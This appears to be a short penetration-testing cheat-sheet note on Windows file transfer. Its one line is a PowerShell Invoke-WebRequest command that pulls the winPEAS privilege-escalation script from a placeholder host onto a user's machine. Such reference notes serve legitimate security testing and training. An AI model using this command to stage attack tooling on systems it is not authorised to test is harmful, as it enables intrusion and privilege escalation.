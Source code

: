 # Windows File Transfer Commands

---

Invoke-WebRequest -Uri "http://<local_ip>/winPEAS.bat" -OutFile "C:\Users\Jareth\Documents\winPEAS.bat"
